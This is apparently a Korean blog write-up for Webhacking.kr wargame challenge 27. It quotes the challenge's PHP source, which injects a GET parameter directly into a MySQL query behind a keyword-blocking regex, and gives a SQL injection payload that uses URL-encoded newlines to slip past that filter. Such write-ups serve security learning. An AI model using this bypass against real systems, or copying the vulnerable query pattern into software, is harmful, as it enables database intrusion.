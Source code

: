 ```yaml
---
layout: post
title: "[풀이] Webhacking.kr 27번 문제"
description: ""
date: 2016-05-01
tags: ['27번', '풀이']
comments: true
share: true
---
```


27번문제는 `SQL INJECTION`관련 문제입니다.

해당 문제의 소스를 보면, index.phps 가 주석처리되어있습니다.

해당 파일을 보면 아래와 같은 소스를 볼수있습니다. no라는 파라미터에 값을 1로 하면 `gest`가 출력되고 1이외 값을 대입했을때는

쿼리에러를 출려합니다. 두번째 조건의 필터링을 우회해서 쿼리문을 만들어 요청해본다.

  

0) or like 2 (`0)%0Aor%0Ano%0Alike%0A2%0A--+`)

  

  

    if($_GET[no]){if(eregi("#|union|from|challenge|select|\(|\t|/|limit|=|0x",$_GET[no])) exit("no hack");$q=@mysql_fetch_array(mysql_query("select id from challenge27_table where id='guest' and no=($_GET[no])")) or die("query error");if($q[id]=="guest") echo("guest");if($q[id]=="admin") @solve();}

![](/assets/images/posts/612/2615984C5725EB39214638.JPEG)

  

